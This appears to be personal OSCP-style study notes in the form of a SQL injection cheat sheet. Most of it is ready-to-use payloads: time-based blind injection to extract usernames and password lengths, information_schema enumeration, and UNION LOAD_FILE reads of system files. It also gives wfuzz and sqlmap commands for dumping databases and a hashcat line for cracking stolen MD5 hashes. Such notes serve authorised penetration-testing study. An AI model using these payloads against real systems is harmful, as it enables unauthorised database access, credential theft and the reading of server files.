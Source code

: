 ### :open_file_folder: References

- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


